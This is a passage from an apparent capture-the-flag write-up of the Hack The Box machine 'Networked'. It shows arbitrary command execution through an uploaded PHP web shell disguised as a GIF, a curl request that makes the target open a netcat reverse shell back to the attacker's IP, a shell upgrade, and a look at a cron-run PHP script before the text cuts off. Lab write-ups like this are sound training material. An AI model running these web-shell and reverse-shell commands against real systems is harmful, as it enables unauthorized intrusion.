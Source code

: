 By adding a GET parameter "cmd", we can execute arbitrary command.
{% highlight shell %}
root@kali:~# curl "http://10.10.10.146/uploads/10_10_14_13.php.gif?cmd=uname%20-a"
GIF89a


<pre>Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
</pre>
{% endhighlight %}

As this box is ranked "easy", we have a netcat command which has an option "-c".<br>
Meaning we can achieve a reverse shell by using netcat.
{% highlight shell %}
root@kali:~# curl "http://10.10.10.146/uploads/10_10_14_13.php.gif?cmd=which%20nc"
GIF89a


<pre>/usr/bin/nc
</pre>
{% endhighlight %}

After the launch of the netcat listener on port 4444, execute the following command.
{% highlight shell %}
root@kali:~# curl "http://10.10.10.146/uploads/10_10_14_13.php.gif?cmd=nc%2010.10.14.13%204444%20-c%20/bin/bash"
{% endhighlight %}

Next, access to the netcat listener.<br>
We can get a shell of remote access as user "apache".
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.146] 53134
id
uid=48(apache) gid=48(apache) groups=48(apache)
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$
{% endhighlight %}

However, we are still not able to read the user.txt in the directory "/home/guly".<br>
But we can find some files interesting.
{% highlight shell %}
bash-4.2$ ls -l       
ls -l
total 12
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
{% endhighlight %}
{% highlight shell %}
bash-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
{% endhighlight %}
{% highlight shell %}
bash-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));